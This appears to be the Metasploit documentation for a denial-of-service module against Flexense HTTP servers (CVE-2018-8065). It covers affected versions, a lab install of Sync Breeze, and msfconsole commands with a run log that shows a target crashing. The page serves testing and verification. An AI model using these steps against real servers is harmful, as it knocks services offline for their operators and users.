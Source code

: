 ## Description
This module triggers a Denial of Service vulnerability in the Flexense Enterprise HTTP server. It is possible to trigger 
a write access memory vialation via rapidly sending HTTP requests with large HTTP header values.  


## Verification Steps
According To publicly exploit Disclosure of Flexense HTTP Server v10.6.24
Following list of softwares are vulnerable to Denial Of Service.
read more : http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8065

	
DiskBoss Enterprise    <= v9.0.18
Sync Breeze Enterprise <= v10.6.24
Disk Pulse Enterprise  <= v10.6.24
Disk Savvy Enterprise  <= v10.6.24
Dup Scout Enterprise   <= v10.6.24
VX Search Enterprise   <= v10.6.24


**Vulnerable Application Link** 
http://www.diskboss.com/downloads.html
http://www.syncbreeze.com/downloads.html
http://www.diskpulse.com/downloads.html
http://www.disksavvy.com/downloads.html
http://www.dupscout.com/downloads.html


## Vulnerable Application Installation Setup.
All Flexense applications that are listed above can be installed by following these steps.

Download Application : ```https://github.com/EgeBalci/Sync_Breeze_Enterprise_10_6_24_-DOS/raw/master/syncbreezeent_setup_v10.6.24.exe```

**And Follow Sync Breeze Enterprise v10.6.24 Setup Wizard**

After the installation navigate to: ```Options->Server```

Check the box saying: ```Enable web server on port:...```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/dos/http/flexense_http_server_dos`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[+] 192.168.1.20:80 The target is vulnerable.
```
  7. Do: `run`
  8. Web server will crash after 200-1000 request depending on the OS version and system memory.

## Scenarios
**TESTED AGAINST WINDOWS 7/10**
```
msf5 > use auxiliary/dos/http/flexense_http_server_dos 
msf5 auxiliary(dos/http/flexense_http_server_dos) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 auxiliary(dos/http/flexense_http_server_dos) > set rport 80
rport => 80
msf5 auxiliary(dos/http/flexense_http_server_dos) > run

[*] 192.168.1.20:80 - Triggering the vulnerability
[+] 192.168.1.20:80 - DoS successful 192.168.1.20 is down !
[*] Auxiliary module execution completed

```
